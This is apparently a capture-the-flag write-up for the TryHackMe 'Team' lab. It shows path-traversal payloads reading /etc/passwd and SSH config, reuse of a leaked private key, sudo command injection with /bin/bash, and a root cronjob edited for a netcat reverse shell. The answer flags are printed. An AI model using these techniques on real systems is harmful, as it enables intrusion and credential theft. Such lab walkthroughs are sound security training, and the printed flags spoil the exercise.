# Team

* IP = 10.10.233.233

## Questions/Tasks:

* Starting with basic Nmap scan to find all open ports on the server:<br>
`nmap -sC -sV -v $IP`

* Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add \'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since port 80 is open, search for any other directories with gobuster:<br>
`gobuster -u "http://IP/" -w common.txt`

* GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
* FTP is open with no anonymous login permit😮‍💨.
* The webpage when opened in browser shows the *Apache Default page*:<br>

* Checking the source of the page, we find this line:<br>

* Edit the `/etc/hosts` file in your machine and add the line:<br>
```
10.10.233.233 team.thm
```
* Now visiting http://team.thm, we're brought to this page:<br>

* Start a second gobuster scan on http://team.thm :
* Second Scan results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/scripts (Status: 301)
/server-status (Status: 403)
```
* Inside *robots.txt* there's only one word: `dale`, maybe its an username.🤔🤔
* I was completely stuck at this stage, but seeing the hint I figured we need to add `dev.team.thm` to the same line in `/etc/hosts`: `10.10.233.233   dev.team.thm team.thm`
* Opening http://dev.team.thm in browser, we are brought here:<br>

* Following the hint, I supposed that it might be a Local file inclusion vulnerability, hence tried this payload:<br>
`http://dev.team.thm/script.php?page=./../../../etc/passwd`, since the main webpage remains in `/var/www/html/`, hence we need to traverse 3 times to get into root of filesystem.

* Thus we can confirm that the page has indeed LFI.
* Similarly we tried this out: `http://dev.team.thm/script.php?page=./../../../home/dale/user.txt`.
* And just like that we got the user flag!!🤗


1. user.txt

**Ans-THM{6Y0TXHz7c2d}**


* Now we need to find a way to get a shell in order to become root!!🫡
* Burp Suite made the job easy and found the list for us:<br>

* Hence we visited: `http://dev.team.thm/script.php?page=./../../../etc/ssh/sshd_config` and got a ssh private key for `Dale`:<br>

* Copy the RSA Private Key to local machine, change permissions with `chmod 600 id_rsa`, then ssh into server with:
`ssh -i id_rsa dale@IP`<br>

* `sudo -l` gives the following output:<br>

* So, probably we need to escalate privileges to `Gyles` then to root.
* Carefully look at the script, the error variable is directly executed in the script itself...so we can supply `/bin/bash` and become *gyles*
* Now run the script with `sudo` and supply `/bin/bash` when prompted for date:<br>

* Thus we can get a barebone shell, and we can elevate the shell with:`python3 -c 'import pty; pty.spawn("/bin/bash")'`
* The `.bash_history` of gyles has a strange file in /usr/local/bin:<br>

* The `admin` group in which gyles is a member has write, read and execute permissions:<br>
<br>
* Edit the file like this:<br>

* In order to get a reverse shell with root privileges. (The above code snippet was taken from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey RevShell Cheat Sheet</a>)
* Set up a netcat listener on local machine with: `nc -lnvp 4444`
* The file will be automatically run by root as it is a *cronjob*.
* Thus we get a root shell connection back:<br>

* Find the root.txt there itself...

2. root.txt

**Ans-THM{fhqbznavfonq}**
